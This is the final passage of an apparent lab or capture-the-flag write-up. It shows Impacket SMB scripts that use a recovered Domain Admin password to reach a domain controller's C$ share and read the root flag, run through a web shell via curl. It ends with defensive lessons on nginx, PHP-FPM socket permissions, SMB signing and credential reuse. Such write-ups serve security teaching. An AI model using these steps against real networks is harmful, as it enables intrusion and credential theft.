The credential is `da-stephanie.lewis` / `krFqXfDI1y4331`. The `da-` prefix and the Domain Admin access confirm the separate administrative account.

### 4.5 Domain Controller → Root Flag

The DA login is validated over SMB with Impacket:

```python
# dc_check.py
from impacket.smbconnection import SMBConnection
conn = SMBConnection("172.16.20.1", "172.16.20.1", sess_port=445)
conn.login("da-stephanie.lewis", "krFqXfDI1y4331", "AUTOPILOT")
print([s["shi1_netname"][:-1] for s in conn.listShares()])
conn.connectTree("C$")
print("C$ accessible")
```

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=python3 /tmp/dc_check.py'
```

```text
['ADMIN$', 'C$', 'IPC$', 'NETLOGON', 'SYSVOL']
C$ accessible
```

The Administrator desktop contains the root flag:

```python
# dc_root.py
from impacket.smbconnection import SMBConnection
conn = SMBConnection("172.16.20.1", "172.16.20.1", sess_port=445)
conn.login("da-stephanie.lewis", "krFqXfDI1y4331", "AUTOPILOT")
conn.connectTree("C$")
with open("/tmp/root.txt", "wb") as fp:
    conn.getFile("C$", "Users\\Administrator\\Desktop\\root.txt", fp.write)
print(open("/tmp/root.txt").read().strip())
```

```bash
curl -k -G "$SHELL" --data-urlencode 'cmd=python3 /tmp/dc_root.py'
```

```text
21c65ed6<REDACTED>
```

-----

## Conclusions

  - **Nextcloud data directories are not web roots.** The initial access was not a Nextcloud code-execution bug; it was an nginx configuration mistake. Uploaded files under `data/<user>/files` were served from `/files/data/` and passed to PHP-FPM. Upload directories must live outside the document root and must never be routed to the PHP handler.
  - **A world-writable FPM socket is a privilege boundary.** The `php-gromox-fpm.sock` was mode `0666`. Any local user — including the `grofiles` web pool — could execute scripts as `gromox`, which could read the mail server's MySQL configuration. Unix socket permissions matter as much as TCP ones.
  - **The grommunio admin API is a root-level configuration channel.** Resetting the `admin` hash in MySQL gave access to `[::1]:8080`, and the `dbconf` commit hook turned `postfix/main.cf` into a root command execution primitive. Configuration-management APIs need the same protection as a root shell: strong authentication, least privilege, and no user-controlled commit hooks.
  - **SMB signing is an authentication boundary.** WS02 did not require SMB signing, so the recurring IMAP NTLM authentication could be relayed to its SMB service. The relay produced an administrative session as `stephanie.lewis` without knowing her password. Requiring signing on every workstation would have stopped the relay.
  - **Credential reuse crosses the Linux/Windows boundary.** The relayed Thunderbird profile saved Stephanie's normal login, which was reused as a local administrator password on WS02. The Domain Admin password then lived in an XOR-obfuscated blob inside `runas.exe`. XOR is obfuscation, not encryption; once the two blobs are known, recovery is trivial. The resulting DA account had `C$` access to the DC, yielding the root flag.
  - **Attack Chain Summary:** Provided HR credentials → grommunio Web mailbox → promotion thread (`joshua.harris`, `stephanie.lewis`) → Nextcloud WebDAV upload → exposed `/files/data/` PHP execution as `grofiles` → gromox FPM socket → MySQL credentials → grommunio admin hash reset → admin API `dbconf`/Postfix hook → SUID `/usr/bin/rootbash` → Linux root + `user.txt` → IMAP NTLM relay to WS02 SMB → Thunderbird saved login → `runas.exe` XOR → DA password → DC `C$` → `root.txt`.

## References

* [grommunio Web — official documentation](https://docs.grommunio.com/web/)
* [Nextcloud WebDAV — user documentation](https://docs.nextcloud.com/server/latest/user_manual/en/files/access_webdav.html)
* [Impacket — SMBConnection and SMB client examples](https://github.com/fortra/impacket)
* [Firepwd — Firefox password recovery](https://github.com/lclevy/firepwd)
* [Microsoft — NTLM overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview)
* [Postfix — `postconf` and `daemon_directory`](https://www.postfix.org/postconf.5.html)
* [PHP-FPM — FastCGI Process Manager](https://www.php.net/manual/en/install.fpm.php)
